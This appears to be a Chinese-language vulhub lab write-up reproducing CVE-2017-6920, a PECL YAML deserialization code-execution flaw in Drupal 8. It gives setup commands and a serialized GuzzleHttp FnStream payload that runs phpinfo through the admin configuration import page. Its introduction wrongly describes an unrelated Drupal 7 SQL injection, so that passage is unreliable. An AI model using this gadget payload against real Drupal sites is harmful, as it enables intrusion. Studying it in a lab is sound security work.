 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞（CVE-2017-6920）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->信息被爆出

### 0x01漏洞介绍

​			Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

##### 影响版本

```
Drupal < 8.3.4
```

### 0x02漏洞复现

​				**先安装 `yaml` 扩展**

```
！！！需要先进入容器 docker exec -it [id] /bin/bash
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

​			**环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。**

![Drupal_PECL_YAML_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_PECL_YAML_RCE_1.jpg)

![Drupal_PECL_YAML_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_PECL_YAML_RCE_2.jpg)			

​		**登录一个管理员账号**

​		**访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`**

​		**如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下**

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

​				**点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面**

​			![Drupal_PECL_YAML_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_PECL_YAML_RCE_3.jpg)

​			![Drupal_PECL_YAML_RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Drupal_PECL_YAML_RCE_4.png)

### 0x03参考资料

https://paper.seebug.org/334/





